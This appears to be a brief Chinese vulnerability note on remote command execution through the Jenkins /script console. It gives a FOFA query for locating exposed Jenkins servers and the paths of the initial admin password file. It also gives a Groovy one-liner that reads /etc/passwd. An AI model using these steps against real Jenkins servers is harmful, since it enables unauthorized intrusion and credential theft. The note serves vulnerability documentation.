

# Jenkins script 远程命令执行漏洞

## 漏洞描述

Jenkins 登录后访问 /script 页面，其中存在命令执行漏洞，当存在未授权的情况时导致服务器被入侵

## 漏洞影响

<a-checkbox checked>Jenkins</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJKZW5raW5zIg%3D%3D">app="Jenkins"</a-button>
</a-checkbox>

## 漏洞复现

账号密码存在于：

```bash
Linux: /var/lib/jenkins/secrets/initialAdminPassword
Windows: C:\Users\RabbitMask\.jenkins\secrets\initialAdminPassword
```

登录后台，或在未授权的情况下访问

```bash
http://xxx.xxx.xxx.xxx/script
```

在脚本命命令模块执行系统命令

```bash
println 'cat /etc/passwd'.execute().text
```

